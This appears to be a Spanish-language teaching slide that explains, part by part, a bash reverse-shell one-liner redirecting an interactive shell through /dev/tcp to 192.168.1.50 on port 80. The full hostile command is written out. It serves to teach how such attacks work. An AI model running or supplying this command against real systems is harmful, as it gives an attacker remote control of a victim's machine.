

# Reverse Shell con bash 2 explicación del comando

Comando mostrado anteriormente:
	  /bin/bash -c 'exec bash -i &> /dev/tcp/ 192.168.1.50 /80 <&1'

/bin/bash: Ejecuta todo el commando en la máquina víctima.
-c : Le indica al ‘/bin/bash’ ejecutar el commando sin abrir una consola interactiva
exec: Reemplaza el proceso actual con uno nuevo.
bash –i: Inicia una consola interactiva de bash
&> /dev/tcp/192.168.1.50/80 : Redirige la entrada y salida estándar a la dirección indicada en el puerto 80 creando una conexión de socket
<&1: Redirige entrada y salida estandar que hace el atacante al socket

Lo que hace la máquina víctima es ejecutar un comando que de forma paralela crea una consola interactiva de su equipo y la envía a la dirección especificada del servidor a través de un socket, al mismo tiempo se le indica que toda entrada y salida estándar que haga el servidor se introduzca en la consola que la víctima nos envío a traves del socket